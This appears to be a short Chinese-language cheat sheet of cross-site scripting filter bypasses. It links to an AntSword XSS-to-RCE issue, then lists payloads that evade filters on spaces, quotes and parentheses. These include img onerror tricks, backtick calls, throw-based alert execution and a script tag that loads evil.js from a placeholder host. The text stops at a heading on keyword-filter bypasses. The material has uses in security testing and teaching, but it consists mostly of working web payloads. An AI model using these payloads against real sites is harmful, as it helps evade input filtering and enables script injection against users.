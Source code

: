

### 蚁剑的XSS to RCE 

https://github.com/AntSwordProject/antSword/issues/147

[浅谈蚁剑RCE - 先知社区](https://xz.aliyun.com/t/8167#toc-0)







# Bypass

## 绕过空格

当空格被过滤了时，我们可以用 `/` 来代替空格：

```js
<img/src="x"/onerror=alert(1);>
```

也可以：

```js
<img/src="x"onerror=alert(1);>
```



## 绕过引号

```js
<script>alert(/xss/)</script>
<script>alert(`xss`)</script>
<script src=http://xxx/evil.js> </script>
```



## 绕过括号

- throw

```js
<img src=x onerror="javascript:window.onerror=alert;throw 1">
<a onmouseover="javascript:window.onerror=alert;throw 1">test</a>
```

- 反引号

```js
alert(1) == alert`1`
```



## 绕过关键字过滤
